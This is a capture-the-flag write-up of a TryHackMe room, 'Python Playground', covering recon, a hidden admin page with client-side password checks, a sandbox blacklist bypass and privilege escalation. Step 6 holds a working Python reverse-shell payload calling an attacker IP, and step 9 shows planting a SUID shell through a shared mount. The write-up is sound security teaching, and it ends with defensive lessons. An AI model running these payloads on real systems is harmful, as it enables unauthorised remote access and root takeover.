<div align="center">

# 🐍 Python Playground
### Breaking out of a "foolproof" Python sandbox to root — one bypass, one hash reversal, and one borrowed SUID bit at a time.


</div>

---

## So what's this room about

Python Playground markets itself as an unbreakable code sandbox — "with our new, foolproof blacklist, no one can break into our servers." That claim doesn't survive contact. The box hides a developer backdoor behind a directory that isn't linked anywhere, guards it with a login whose "security" is a reversible client-side hash, and runs a Python console that blocks `import` but not `__import__`. Three flags, three different failures: broken access control, broken crypto, and a careless root leaving the keys to `/mnt/log`.

## What I used

- `nmap` — port/service enumeration
- `gobuster` — directory brute-forcing (`raft-large-files.txt`)
- Firefox dev tools (view-source) — reading client-side JS
- `python3` — reversing the password hash, building the reverse-shell one-liner
- `nc` — catching the reverse shell
- `ssh` — logging in as Connor

## How it went down

### 1. Recon

Standard full TCP scan first:

```bash
nmap -sV -sC -p- -T5 <target-ip>
```

Only two services are up — SSH on 22 and a Node.js/Express site on 80 claiming to be "Python Playground."



### 2. Poking the website

The landing page is just marketing copy and two links, **Login** and **Sign up**.



Both of those routes refuse to load — "due to some recent security issues, only admins can use the site right now." Dead end on the surface, so it's time to enumerate what isn't linked.



### 3. Finding the hidden admin page

```bash
gobuster dir -u http://<target-ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
```

That turns up `admin.html` — a page that exists but was never linked from the site itself.



### 4. "Connor's Secret Admin Backdoor"

`admin.html` is a login form for a user called Connor.



Reading the page source explains exactly why it's weak — a comment from the developer gives the game away before the code does:

> "I suck at server side code, luckily I know how to make things secure without it - Connor"



The whole auth check runs **client-side**, in the browser. It compares a hash of the entered password against a hardcoded string:

```js
function string_to_int_array(str){
  const intArr = [];
  for (let i = 0; i < str.length; i++) {
    const charcode = str.charCodeAt(i);
    intArr.push(Math.floor(charcode / 26));
    intArr.push(charcode % 26);
  }
  return intArr;
}

function int_array_to_text(int_array){
  let txt = '';
  for (let i = 0; i < int_array.length; i++) {
    txt += String.fromCharCode(97 + int_array[i]);
  }
  return txt;
}

document.forms[0].onsubmit = function (e) {
  e.preventDefault();
  if (document.getElementById('username').value !== 'connor') { /* fail */ }
  const chosenPass = document.getElementById('inputPassword').value;
  const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))));
  if (hash === '<redacted-target-hash>') {
    window.location = 'super-secret-admin-testing-panel.html';
  }
};
```



Two things fall out of this immediately:
- The "hidden" page it redirects to (`super-secret-admin-testing-panel.html`) is readable straight from the source — no need to pass the login at all.
- The hashing is just two home-made encode passes, and it's fully reversible.

### 5. Walking into the console directly

Since the redirect target is just a static filename, browsing to `super-secret-admin-testing-panel.html` works without ever solving the password. It drops straight into a Python web console running server-side.



### 6. Bypassing the "foolproof" blacklist

Typing `import os` gets blocked — the console blacklists the `import` keyword. `__import__` isn't on the list, though, which is all that's needed to pull in `os`, `socket`, and `subprocess` and build a reverse shell:

```python
o = __import__('os')
s = __import__('socket')
p = __import__('subprocess')

k = s.socket(s.AF_INET, s.SOCK_STREAM)
k.connect(("<attacker-ip>", 4444))
o.dup2(k.fileno(), 0)
o.dup2(k.fileno(), 1)
o.dup2(k.fileno(), 2)
p.call(["/bin/sh", "-i"])
```

With a listener running (`nc -lvnp 4444`) and that pasted into the console, the shell lands as **root** inside the app's container:



`flag1.txt` sits in root's home:



### 7. Reversing Connor's password

Back to the hash check from step 4. Both encode functions are simple and reversible:

```python
import string, math

characters = string.digits + string.ascii_lowercase
hashstring = "<redacted-target-hash>"

def decode(encoded):
    """Reverse string_to_int_array() + int_array_to_text()"""
    result = ""
    for i in range(0, len(encoded), 2):
        part_a = ord(encoded[i]) - 97
        part_b = ord(encoded[i + 1]) - 97
        result += chr(part_a * 26 + part_b)
    return result

# the page runs the encode pair twice, so decode twice to undo it
intermediate = decode(hashstring)
password = decode(intermediate)

print("Intermediate:", intermediate)
print("Recovered Password:", password)
```

Running it recovers Connor's plaintext password:



### 8. SSH as Connor → flag 2

```bash
ssh connor@<target-ip>
```

Logs in with the recovered password straight away. `flag2.txt` is sitting in Connor's home directory:



### 9. Privesc via a shared log mount → flag 3

Back in the root reverse shell from step 6, `/mnt/log` turns out to be a bind mount — the same directory that's reachable from Connor's side as a log path. Since the shell is root on this side of the mount, it's possible to drop a SUID shell into it for Connor to pick up:

```bash
cp /bin/sh /mnt/log
chmod +s /mnt/log/sh
ls -l /mnt/log/sh
# -rwsr-sr-x 1 root root 129816 ... /mnt/log/sh
```



Switching back to Connor's SSH session and running that same binary from its path on his side (`/var/log/sh -p`) pops a root shell, where `flag3.txt` is waiting in `/root`:



## What I actually learned

- **Never trust client-side auth.** If the check that decides access runs in JavaScript the browser executes, it's not a check — it's a suggestion. The whole admin gate here was bypassable just by reading the page source and jumping to the redirect target directly.
- **"Security through obscurity" isn't security.** A page that works perfectly fine once you know its URL, with no server-side check backing it, is just a URL — `gobuster` finds it in minutes.
- **Blacklists are a losing game.** Blocking the literal word `import` while leaving `__import__` wide open is the classic trap of denylisting syntax instead of actually restricting what the interpreter can do.
- **Home-rolled crypto is reversible crypto.** Two deterministic, stateless transforms chained together with no secret key is just an encoding, not a hash — if you can read the function, you can invert the function.
- **Shared mounts cross trust boundaries.** `/mnt/log` being writable as root on one side and executable as a normal user on the other turned a root foothold on the web container into root on the SSH host, just by dropping a SUID binary across the shared path.

## About the flag(s)

All three flags were captured and submitted on TryHackMe. Per TryHackMe's rules, flag values, Connor's recovered password, and the full target hash string are redacted/blacked out in the text and screenshots above rather than posted in plain text.

---

<div align="center">

Writeup by **Simranjit Kaur** · part of the [CTF writeup collection](../README.md)

</div>
